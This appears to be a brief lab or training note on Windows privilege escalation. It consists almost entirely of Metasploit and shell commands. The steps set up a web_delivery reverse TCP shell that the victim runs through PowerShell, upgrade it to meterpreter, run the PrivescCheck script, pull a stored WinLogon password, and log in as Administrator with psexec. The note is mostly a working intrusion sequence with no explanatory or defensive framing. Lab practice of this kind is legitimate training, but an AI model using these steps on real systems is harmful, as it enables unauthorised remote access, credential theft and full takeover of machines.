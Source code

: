 **PrivescCheck**
https://github.com/itm4n/PrivescCheck

MSF:
```
search web_delivery / use 1
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCOmmand false
set lhost eth1
```

Copy the powershell code and execute on victim.
```shell
shell_to_meterpreter
set win_transfer VBS
set LHOST
set LPORT
run
pgrep > migrate
getprivs

on C:/Users/student/desktop/privesccheck i can find the script
```

Found pass under Creds > WinLogon

# Elevating
Authenticating with psexec - login via SMB/RDP/WinRM

```
psexec.py Administrator@[IP]

# Or msf

search psexec
use exploit/windows/smb/psexec
```

